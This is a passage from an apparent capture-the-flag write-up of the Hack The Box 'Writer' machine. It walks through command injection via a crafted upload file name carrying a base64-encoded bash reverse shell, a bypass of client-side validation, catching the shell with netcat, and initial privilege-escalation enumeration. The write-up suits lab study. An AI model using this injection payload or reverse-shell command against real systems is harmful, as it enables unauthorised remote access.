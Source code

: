 ### Command Injection

So, I constructed the following filename:

`3.jpg & echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC8zOTM5IDA+JjEK" | base64 -d | bash;`

Evaluated, this will simply decode the base64 encoded payload and pipe it into bash.  That payload base64 decoded is:
```bash
bash -i >& /dev/tcp/10.10.10.10/3939 0>&1
```

We are then able to upload the malicious file, and then also verify it exists by navigating to the `/static/img` path of the website which will show us all the files.  Then when we go to execute the payload by referencing the file through the `file://` directive, we are given the following by the website:

![Upload failure](images/htbwriter/special.png)

While this seems to have foiled our evil scheme, it is actually only a client side validation, so disabling this via inspect element or sending the payload via burpsuite bypasses this check entirely.

### Reverse Shell

Then bam, we finally get a reverse shell:

```Awk
└─# nc -lvp 3939
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::3939
Ncat: Listening on 0.0.0.0:3939
Ncat: Connection from 10.10.11.101.
Ncat: Connection from 10.10.11.101:35588.
bash: cannot set terminal process group (1058): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@writer:/$
```

## Privilege Escalation

### Foothold Enumeration

From here we can start to actually investigate the running processes and other things on the machine.  Inspecting `/etc/passwd` shows us the two main users of the box:
```Awk
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
```

Next we can look at what is running on the box:
```Awk
www-data@writer:/$ ss -tlpn
ss -tlpn
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         50                 0.0.0.0:445              0.0.0.0:*
LISTEN    0         80               127.0.0.1:3306             0.0.0.0:*
LISTEN    0         50                 0.0.0.0:139              0.0.0.0:*
LISTEN    0         10               127.0.0.1:8080             0.0.0.0:*        users:(("python3",pid=381422,fd=4))
LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*
LISTEN    0         100              127.0.0.1:25               0.0.0.0:*
LISTEN    0         50                    [::]:445                 [::]:*
LISTEN    0         50                    [::]:139                 [::]:*
LISTEN    0         511                      *:80                     *:*
```